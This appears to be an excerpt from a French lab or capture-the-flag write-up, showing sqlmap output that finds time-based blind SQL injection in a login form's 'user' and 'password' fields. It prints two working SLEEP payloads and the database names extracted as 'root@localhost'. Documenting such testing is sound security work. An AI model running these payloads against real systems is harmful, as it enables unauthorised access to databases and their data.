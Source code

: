 ```shellsession
[09:46:28] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[09:46:38] [INFO] POST parameter 'user' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[09:46:38] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[09:46:38] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[09:46:38] [INFO] target URL appears to be UNION injectable with 2 columns
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] y
[09:52:01] [INFO] testing 'Generic UNION query (52) - 21 to 40 columns'
[09:52:02] [INFO] testing 'Generic UNION query (52) - 41 to 60 columns'
[09:52:02] [INFO] testing 'Generic UNION query (52) - 61 to 80 columns'
[09:52:02] [INFO] testing 'Generic UNION query (52) - 81 to 100 columns'
[09:52:02] [INFO] testing 'MySQL UNION query (52) - 1 to 20 columns'
[09:52:02] [INFO] testing 'MySQL UNION query (52) - 21 to 40 columns'
[09:52:02] [INFO] testing 'MySQL UNION query (52) - 41 to 60 columns'
[09:52:02] [INFO] testing 'MySQL UNION query (52) - 61 to 80 columns'
[09:52:02] [INFO] testing 'MySQL UNION query (52) - 81 to 100 columns'
[09:52:02] [INFO] checking if the injection point on POST parameter 'user' is a false positive
POST parameter 'user' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
[09:53:52] [INFO] testing if POST parameter 'password' is dynamic
--- snip ---
POST parameter 'password' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 4549 HTTP(s) requests:
---
Parameter: password (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: user=test&password=test' AND (SELECT 2765 FROM (SELECT(SLEEP(5)))JfmU)-- ZRgb&s=Submit

Parameter: user (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: user=test' AND (SELECT 1752 FROM (SELECT(SLEEP(5)))ArNm)-- pnyG&password=test&s=Submit
---
```

et j'ai pu extraire quelques infos :

```
available databases [7]:
[*] information_schema
[*] login
[*] mysql
[*] performance_schema
[*] phpmyadmin
[*] users
[*] wordpress8080

current user: 'root@localhost'
```
